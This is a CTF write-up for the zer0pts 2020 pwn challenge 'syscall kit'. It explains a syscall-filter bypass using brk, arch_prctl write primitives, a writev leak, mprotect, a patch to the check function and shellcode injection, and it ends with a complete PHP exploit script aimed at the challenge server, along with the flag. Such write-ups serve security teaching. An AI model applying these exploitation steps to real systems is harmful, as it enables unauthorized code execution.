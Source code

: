 # sycall kit - zer0pts CTF 2020 (pwn, 671p, 12 solved)
## Introduction

syscall kit is a pwn task.

An archive containing a binary, and its source code is provided.

The binary lets the user call syscalls with 3 arguments of its choice. Some
syscalls (deemed to be dangerous) are banned. The user can call up to 10
syscalls before the program exits.

## Analysis

There are two problems making this task hard : every dangerous (read:
interesting) syscalls are banned.  Besides, the binary is PIE, so no addresses
are known. This means it is not possible to leak addresses, or pass valid
addresses to syscalls.

The first thing to do is to retrieve an address.

This can be done with the `brk` syscall. This syscall extends the program break
(i.e. the heap) when the memory allocator needs additional memory.

Its signature is : `int brk(void *addr);`. The manual states the following:
> On success, brk() returns zero.  On error, -1 is returned, and errno is set to
> ENOMEM.

However, it also states the following in the `NOTES` section:
> The return value described above for brk() is the behavior provided by the
> glibc wrapper function for the Linux brk() system call. [...]
> However, the actual Linux system call returns the new program break on
> success.

`brk(0x10000)` returns the start of the heap + 0x10000.

The heap can now be used as a scratchpad.

Calling the `arch_prctl` syscall with values `ARCH_SET_GS` and `ARCH_GET_GS` can
be used to write 6-bytes values anywhere. (the value must be a valid address,
therefore it must have the first 12 bits set to either 1 or 0.)

The following syscalls will write `0xdeadbeef` in the heap :
```c
arch_prctl(ARCH_SET_GS, 0xdeadbeef);
arch_prctl(ARCH_GET_GS, $heap);
```

This primitive can be used to write two integers in the heap :

```c
struct iovec {
	void  *iov_base;
	size_t iov_len;
} s = {
	.iov_base = heap,
	.iov_len  = 0x2000,
};
```

This structure is used by the `writev` and `readv` syscalls. They are not
blacklsited, and can be used to write 2 whole pages of the content of the heap
to stdout.

The heap contains an address of the vtable of the `Emulator` object. This can be
used to determine the base address of the program.

The `mprotect` syscall can then be used to make these pages writable. This can
be used to patch the `check` function so that it always validates syscalls :

```assembler
31 c0 xor eax, eax
c3    ret
```

Once the check function has been patched, the `write` syscall can be used to put
a shellcode at `0x12c6`. That shellcode will get executed as soon as the binary
returns from the `write` syscall.


## Exploitation

The ten syscalls used to get a shell are the following :
1. `brk(0x10000)`
2. `arch_prctl(ARCH_SET_GS, $heap)`
3. `arch_prctl(ARCH_GET_GS, $heap)`
4. `arch_prctl(ARCH_SET_GS, 0x2000)`
5. `arch_prctl(ARCH_GET_GS, $heap + 8)`
6. `writev(STDOUT_FILENO, $heap, 1)`
7. `mprotect($base, 0x1000, PROT_RWX)`
8. `arch_prctl(ARCH_SET_GS, 0xC3C031)`
9. `arch_prctl(ARCH_GET_GS, $check)`
10. `write(0, $syscall + 0x46, 0x40)`

**Flag**: `zer0pts{n0_w4y!_i_b4nn3d_3v3ry_d4ng3r0us_sysc4ll!}`

## Appendices

### pwn.php

```php
#!/usr/bin/php
<?php
require_once("Socket.php");

function syscall(Tube $t, $syscall, $arg1 = 0, $arg2 = 0, $arg3 = 0)
{
	$t->expectLine("=========================");
	$t->expect("syscall: "); $t->write("$syscall\n");
	$t->expect("arg1: ");    $t->write("$arg1\n");
	$t->expect("arg2: ");    $t->write("$arg2\n");
	$t->expect("arg3: ");    $t->write("$arg3\n");
	$t->expectLine("=========================");
}

function ret(Tube $t)
{
	$t->expect("retval: ");
	return hexdec($t->readLine());
}

function write64(Tube $t, $addr, $value)
{
	syscall($t, 158, 0x1001, $value);
	ret($t);

	syscall($t, 158, 0x1004, $addr);
	ret($t);
}

$t = new Socket("13.231.207.73", 9006);

/* brk() */
syscall($t, 12,  0x10000);
$brk = ret($t) - 0x10000;
printf("[+] heap: %X\n", $brk);

write64($t, $brk, $brk);
write64($t, $brk + 8, 0x2000);

syscall($t, 20, 1, $brk, 1);
$leak = $t->read(0x2000);
ret($t);

$addr = 0;
for($i = 0; $i < strlen($leak); $i += 8) {
	$qword = unpack("Q", substr($leak, $i, 8))[1];
	if(0xCE0 === (0xFFF & $qword)) {
		$addr = $qword;
		break;
	}
}

if($addr === 0)
	throw new Exception("[!] Leak failed\n");

$base = $addr - 0x00202ce0;
printf("[+] PIE: %X\n", $base);

/* mprotect */
syscall($t, 10, $base, 0x2000, 7); ret($t);

/* patch */
write64($t, $base + 0x116e, 0xC3C031);

// read after syscall
syscall($t, 0, 0, $base + 0x000012c6, 0x40);
$t->write(file_get_contents("shellcode"));

$t->pipe();
```
